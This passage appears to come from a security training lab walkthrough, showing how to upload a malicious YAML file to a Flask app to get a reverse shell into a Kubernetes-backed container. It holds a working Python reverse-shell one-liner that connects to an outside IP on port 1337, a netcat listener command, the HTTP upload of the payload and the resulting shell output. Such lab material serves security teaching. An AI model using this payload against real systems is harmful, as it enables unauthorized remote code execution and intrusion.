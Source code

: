 * Check the file to confirm the changes made

```commandline
cat reverse_shell.yml
```

**EXAMPLE**: `["echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"104.1.1.1\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' > shell.py && python shell.py &"]`

---

#### Step 7:

* Switch to the lower panel and start the `netcat` listener on port `1337`

> ###### Switch to the lower panel with `ctrl` + `b` and then `lower arrow key`
```commandline
nc -l 1337
```

* Go to the upper pane and post the malicious `reverse_shell.yml` file

> ###### Switch to the upper pane with `ctrl` + `b` and then `upper arrow key`
```commandline
http --form POST $NGFLASK/upload file@reverse_shell.yml
```

### *It should come back with a response similar to the one below*

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Thu, 03 Jan 2019 14:38:49 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```

### *On the tab running netcat, you should have gotten a netcat reverse TCP shell! The output on the tab running `netcat` will be similar to the one below.*

```
nc -l 1337
/bin/sh: can't access tty; job control turned off
/app #
```

### *Now you can interact with your target app and backend K8s cluster*
